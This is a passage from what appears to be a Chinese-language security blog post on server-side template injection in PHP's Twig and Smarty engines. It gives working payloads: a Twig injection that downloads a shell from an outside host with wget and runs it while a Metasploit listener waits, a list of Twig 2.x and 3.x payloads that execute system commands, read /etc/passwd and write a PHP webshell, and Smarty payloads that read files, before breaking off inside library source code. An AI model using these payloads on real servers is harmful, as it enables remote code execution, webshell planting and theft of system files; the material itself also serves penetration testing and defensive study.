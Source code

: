msf进行监听：

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232520602-1757346385.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232520602-1757346385.png)

模板注入远程下载shell，并重命名运行

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php")}}

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232914668-1182705687.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232914668-1182705687.png)

以上就是php twig模板注入，由于以上使用的twig为2.x版本，现在官方已经更新到3.x版本，根据官方文档新增了 filter 和 map 等内容，补充一些新版本的payload：

{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}

{{app.request.files.get(1).openFile.fread(99)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

{{_self.env.enableDebug()}}{{_self.env.isDebug()}}

{{["id"]|map("system")|join(",")

{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

{{["id",0]|sort("system")|join(",")}}

{{["id"]|filter("system")|join(",")}}

{{[0,0]|reduce("system","id")|join(",")}}

{{['cat /etc/passwd']|filter('system')}}

具体payload分析详见：《[TWIG 全版本通用 SSTI payloads](https://xz.aliyun.com/t/7518#toc-5)》

　　　　　　　　　　  《[SSTI-服务器端模板注入](https://my.oschina.net/u/4588149/blog/4408349)》

Smarty是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

但是，实际上对语言的限制并不能影响我们执行命令，因为我们首先考虑的应该是模板本身，恰好 Smarty 很照顾我们，在阅读[模板的文档](https://github.com/smarty-php/smarty)以后我们发现：$smarty内置变量可用于访问各种环境变量，比如我们使用 self 得到 smarty 这个类以后我们就去找 smarty 给我们的的方法

smarty/libs/sysplugins/smarty_internal_data.php　　——>　　getStreamVariable() 这个方法可以获取传入变量的流

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200910234359019-777787778.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200910234359019-777787778.png)

因此我们可以用这个方法读文件，payload:

{self::getStreamVariable("file:///etc/passwd")}

同样

smarty/libs/sysplugins/smarty_internal_write_file.php　　——>　　Smarty_Internal_Write_File 这个类中有一个writeFile方法

class Smarty_Internal_Write_File
{
    /**
     * Writes file in a safe way to disk     *     * @param  string $_filepath complete filepath     * @param  string $_contents file content     * @param  Smarty $smarty    smarty instance     *     * @throws SmartyException     * @return boolean true     */
    public function writeFile($_filepath, $_contents, Smarty $smarty)
    {
        $_error_reporting = error_reporting();
        error_reporting($_error_reporting & ~E_NOTICE & ~E_WARNING);
        if ($smarty->_file_perms !== null) {
            $old_umask = umask(0);
        }
